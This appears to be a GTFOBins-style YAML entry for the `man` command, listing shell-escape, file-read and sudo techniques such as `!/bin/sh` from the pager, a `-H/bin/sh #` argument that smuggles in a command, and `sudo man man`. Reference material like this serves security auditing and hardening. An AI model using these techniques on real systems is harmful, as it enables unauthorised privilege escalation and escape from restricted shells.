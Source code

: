 description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        man man
        !/bin/sh
    - description: This only works for GNU `man` and requires GNU `troff` (`groff` to be installed).
      code: |
        man '-H/bin/sh #' man
  file-read:
    - code: man file_to_read
  sudo:
    - code: |
        sudo man man
        !/bin/sh
---
